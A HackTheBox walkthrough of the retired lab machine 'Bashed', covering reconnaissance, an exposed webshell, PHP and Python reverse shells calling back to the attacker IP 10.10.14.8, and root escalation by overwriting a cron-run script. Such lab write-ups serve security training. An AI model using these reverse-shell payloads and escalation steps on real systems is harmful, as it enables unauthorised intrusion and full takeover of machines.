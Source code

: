 ```yaml
---
layout: post
title: HacktheBox - Bashed
toc: true
subtitle: Retired Machine
comments: false
---
```


## Bashed ![propic](/pictures/bashed/bashedpic.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/bashed 10.10.10.68
```
![bashednmap](/pictures/bashed/bashednmap.png)

There is an open port 80 (http) from the default nmap script. We can visit the web page from your browser to look for clues.

![bashedhomepage](/pictures/bashed/bashed_homepage.png)

There is nothing too interesting from the initial look so I will run gobuster to identify any hidden directories.

```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![basheddirb](/pictures/bashed/bashed_dirb.png)

Off the bat, there are several subdirectories that pop up. I navigate to /dev and see the phpbash.php file. I click on the php file and obtain a webshell.

![bashedwebshell](/pictures/bashed/bashed_webshell.png)

Next, I want to create a persistent/reverse shell, so I create a listener with netcat:
```
nc -lvnp 1234
```
Once the listener is running, I google pentestmonkey reverse shell cheat sheet and look for a php reverse shell command:
```
php -r '$sock=fsockopen("10.10.14.8",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
This does not work, so I navigate to /var/www/html and view the uploads directory since that was a listed subdirectory that can be hit from the web i.e. 10.10.10.68/uploads.

From my attacker box, I run the command below to find a php reverse shell file to upload to the target based on the following keywords:
```
locate php reverse
```
I moved the php-reverse-shell.php file to /tmp. I update the file to listen on my attacker host ip and started up an http server via python with the following commands:
```
cp -r /usr/share/webshells/php/php-reverse-shell.php /tmp/php-reverse-shell.php
cd /tmp
python3 -m http.server 80
```
Now that the attacker box's http server is up and running, I can run wget from /var/www/html/uploads to obtain the file from the target's box through the obtained web shell:
```
wget 10.10.14.8/php-reverse-shell.php
```
Next, I ensure my netcat listener is still active over port 1234 and navigate to 10.10.10.68/uploads/php-reverse-shell.php on my browser. 

And voila, I have a reverse shell. I run the following command to upgrade the shell to a TTY:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Next is to escalate privileges. To check my current permissions, I run the command:

```
sudo -l
```
This lists that I can run all commands under the user: scriptmanager.

So, I can go ahead and run the command to get a bash shell as the scriptmanager user:
```
sudo -u scriptmanager bash
```
I run an ls-la and see that scriptmanager owns scripts/test.py which is writing to scripts/test.txt. It appears that test.txt is owned under root.

Since test.py is writing to test.txt, this means that root has a cronjob scheduled for this python script to run. This means that if the python script runs a reverse shell, it will be under root since root has the job under its ID.So, I open up a reverse shell cheatsheet from pentestmonkey and look for a python reverse shell.

I attempt to update the script via vim, but the text editor is wonky. So, I decide to delete the file's content with the command:
```
sed -i "d" test.py
```
Next, I echo each line into the python file:
```
echo 'import socket,subprocess,os' >> test.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
echo 's.connect(("10.10.14.8",1234))' >> test.py
echo 'os.dup2(s.fileno(),0)' >> test.py
echo 'os.dup2(s.fileno(),1)' >> test.py
echo 'os.dup2(s.fileno(),2)' >> test.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> test.py
cat test.py
```
The cat command will show the contents of test.py having all the required lines for the reverse shell to complete. Next, I open up the listener via netcatover 1234 on my attack box, and get the root reverse shell.

![bashedroot](/pictures/bashed/bashed_root.png)
